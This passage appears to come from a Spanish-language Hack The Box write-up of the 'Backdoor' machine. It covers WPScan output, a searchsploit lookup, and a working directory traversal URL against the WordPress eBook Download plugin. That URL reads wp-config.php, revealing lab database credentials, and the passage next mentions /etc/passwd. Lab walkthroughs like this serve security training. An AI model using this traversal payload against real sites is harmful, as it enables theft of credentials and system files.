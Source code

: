 ```console

[+] Enumerating Vulnerable Plugins (via Passive Methods)

[i] No plugins Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Jan 28 00:34:10 2022
[+] Requests Done: 48
[+] Cached Requests: 5
[+] Data Sent: 10.55 KB
[+] Data Received: 18.161 MB
[+] Memory used: 215.465 MB
[+] Elapsed time: 00:00:12
```

A pesar de toda la información, no he logrado acceso al panel de administración de WordPress.

## Fase de Explotación

Podemos tratar de ver los plugins instalados en la web:

![plugins](/assets/images/hackthebox/machines/backdoor/plugins.png)

Vemos que tienen instalado el plugin **`ebook-download`**, busquemos alguna vulnerabilidad y su correspondiente exploit.

```console
p3ntest1ng:~$ searchsploit Wordpress eBook Download
-------------------------------------------------------------- -----------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- -----------------------
WordPress Plugin eBook Download 1.1 - Directory Traversal     | php/webapps/39575.txt
-------------------------------------------------------------- -----------------------
Shellcodes: No Results
```

Podemos ver la explicación y el POC (Proof of Concept) aquí: https://www.exploit-db.com/exploits/39575
El plugin es vulnerable a **`Directory Path Traversal`** por lo cual podemos descargarnos archivos locales de forma remota.

Lo primero que podemos hacer es descargarnos una copia del archivo **`wp-config.php`** ya que suele contener el usuario y la contraseña.

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

En este caso encontramos el usuario **`worpressuser`** y la contraseña **`MQYBJSaD#DxG6qbm`**.
Podemos descargar el archivo **`/etc/passwd`** para listar los usuarios existentes en el sistema.
